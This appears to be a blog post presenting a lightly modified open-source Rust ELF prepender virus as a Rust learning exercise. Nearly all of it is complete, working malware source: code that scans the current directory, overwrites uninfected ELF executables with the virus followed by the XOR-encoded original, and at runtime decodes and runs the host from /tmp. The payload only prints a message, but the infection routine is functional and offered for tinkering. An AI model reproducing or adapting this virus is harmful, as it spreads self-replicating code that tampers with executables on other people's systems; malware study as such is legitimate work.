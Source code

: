 Title: ELF prepender
Date: 2020-1-2 10:01
Modified: 2020-1-2 10:01
Category: misc
Tags: rust, elf, linux 
Slug: elf_prepender
Authors: F3real
Summary: Simple rust ELF prepender

Recently I have found interesting post on [reddit](https://www.reddit.com/r/rust/comments/d0hbsp/linuxfe2o3_a_rust_virus/) about \`virus\` written in rust. It simply infects all ELF files in current directory using basic prepending technique. The infected program, when run, will XOR decode real code and run it from temp folder.

Since it is open source, it actually makes a pretty good exercise if you want to learn more about rust while tinkering with something. The original code is not really idiomatic but `cargo clippy` and reddit comments can serve as a guide if you want to improve it.

My slightly modified version is bellow (proper error handling would require bigger rework).

~~~rust
use std::ffi::{OsStr, OsString};
use std::fs::File;
use std::io::prelude::*;
use std::io::{Read, SeekFrom, Write};
use std::os::unix::fs::OpenOptionsExt;
use std::process::Command;
use std::{env, fs, process};

const ELF_MAGIC: &[u8; 4] = &[0x7f, 0x45, 0x4c, 0x46]; // b"\x7FELF"

const PLAIN_HOST_PATH: &str = "/tmp/host";
const INFECTION_MARK: &[u8; 5] = &[0x40, 0x54, 0x4d, 0x5a, 0x40]; // @TMZ@
const XOR_KEY: &[u8; 5] = &[0x46, 0x65, 0x32, 0x4f, 0x33]; // Fe2O3
const VIRUS_SIZE: u64 = 2_677_560;

fn payload() {
    println!("Infected!!!");
}

fn read_file(path: &OsStr) -> Vec<u8> {
    let mut buf = Vec::new();
    if let Ok(mut f) = File::open(path) {
        f.read_to_end(&mut buf).unwrap();
    }
    buf
}

fn xor_enc_dec(mut input: Vec<u8>) -> Vec<u8> {
    for i in 0..input.len() {
        input[i] ^= XOR_KEY[i % XOR_KEY.len()];
    }
    input
}

fn is_elf(path: &OsStr) -> bool {
    // this will work for PIE executables as well
    // but can fail for shared libraries during execution
    let mut ident = [0; 4];
    match File::open(path) {
        Ok(mut f) => match f.read_exact(&mut ident) {
            Ok(_) => &ident == ELF_MAGIC,
            Err(_) => false,
        },
        Err(_) => false,
    }
}

fn is_infected(path: &OsStr) -> bool {
    let buf = read_file(path);
    match buf
        .windows(INFECTION_MARK.len())
        .position(|window| window == INFECTION_MARK)
    {
        Some(_) => true,
        _ => false,
    }
}

fn infect(virus: &OsString, target: &OsStr) {
    let host_buf = read_file(target);
    if host_buf.is_empty() {
        return;
    }
    let encrypted_host_buf = xor_enc_dec(host_buf);
    let mut virus_buf = vec![0; VIRUS_SIZE as usize];

    if let Ok(mut f) = File::open(virus) {
        if f.read_exact(&mut virus_buf).is_ok() {
            let mut infected = File::create(target).unwrap();
            infected.write_all(&virus_buf).unwrap();
            infected.write_all(&encrypted_host_buf).unwrap();
        }
    }
}

fn run_infected_host(path: &OsString) {
    let mut encrypted_host_buf = Vec::new();
    let mut infected = File::open(path).unwrap();

    let mut plain_host = fs::OpenOptions::new()
        .create(true)
        .write(true)
        .mode(0o755)
        .open(PLAIN_HOST_PATH)
        .unwrap();
    infected.seek(SeekFrom::Start(VIRUS_SIZE)).unwrap();
    infected.read_to_end(&mut encrypted_host_buf).unwrap();
    drop(infected);

    let decrypted_host_buf = xor_enc_dec(encrypted_host_buf);
    plain_host.write_all(&decrypted_host_buf).unwrap();
    plain_host.sync_all().unwrap();
    plain_host.flush().unwrap();

    drop(plain_host);
    Command::new(PLAIN_HOST_PATH).status().unwrap();
    fs::remove_file(PLAIN_HOST_PATH).unwrap();
}

fn main() {
    let args: Vec<String> = env::args().collect();
    let myself = OsString::from(&args[0]);

    if let Ok(current_dir) = env::current_dir() {
        for entry in fs::read_dir(current_dir).unwrap() {
            let entry = entry.unwrap();
            let path = entry.path();
            let metadata = fs::metadata(&path).unwrap();

            if metadata.is_file() {
                let entry_name = path.file_name().unwrap();
                if myself == entry_name {
                    continue;
                }
                if is_elf(entry_name) && !is_infected(entry_name) {
                    infect(&myself, entry_name);
                }
            }
        }
    }

    if fs::metadata(&myself).unwrap().len() > VIRUS_SIZE {
        payload();
        run_infected_host(&myself);
    } else {
        process::exit(0)
    }
}
~~~